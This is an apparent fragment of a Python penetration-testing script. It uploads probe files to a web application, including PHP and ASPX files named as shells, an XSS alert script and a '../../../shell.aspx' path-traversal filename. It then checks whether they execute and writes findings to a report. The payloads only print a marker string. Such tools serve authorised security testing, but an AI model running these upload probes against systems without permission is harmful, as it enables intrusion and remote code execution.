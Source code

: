 ```python
                'content': '<%@ Page Language="C#" %><%Response.Write("VULNERABLE");%>',
                'content_type': 'text/plain'
            },
            {
                'filename': 'shell.php',
                'content': '<?php echo "VULNERABLE"; ?>',
                'content_type': 'application/x-php'
            },
            {
                'filename': 'script.js',
                'content': 'alert("XSS")',
                'content_type': 'application/javascript'
            },
            {
                'filename': '../../../shell.aspx',
                'content': '<%@ Page Language="C#" %><%Response.Write("VULNERABLE");%>',
                'content_type': 'text/plain'
            }
        ]
        
        for file_data in malicious_files:
            files = {
                'file': (
                    file_data['filename'],
                    file_data['content'],
                    file_data['content_type']
                )
            }
            
            response = self.session.post(upload_url, files=files)
            
            if response.status_code == 200:
                try:
                    result = response.json()
                    file_path = result.get('path', '')
                    
                    # Try to access uploaded file
                    access_response = self.session.get(urljoin(self.base_url, file_path))
                    
                    if 'VULNERABLE' in access_response.text:
                        self.findings.append({
                            'type': 'Malicious File Upload',
                            'severity': 'Critical',
                            'description': f'Uploaded and executed: {file_data["filename"]}',
                            'proof_of_concept': f'File accessible at: {file_path}',
                            'impact': 'Remote code execution through file upload'
                        })
                except:
                    pass
                    
    def generate_pentest_report(self):
        """Generate comprehensive penetration test report"""
        print("Generating penetration test report")
        
        # Categorize findings by severity
        critical = [f for f in self.findings if f['severity'] == 'Critical']
        high = [f for f in self.findings if f['severity'] == 'High']
        medium = [f for f in self.findings if f['severity'] == 'Medium']
        low = [f for f in self.findings if f['severity'] == 'Low']
        
        # Calculate CVSS scores
        for finding in self.findings:
            finding['cvss_score'] = self.calculate_cvss_score(finding)
```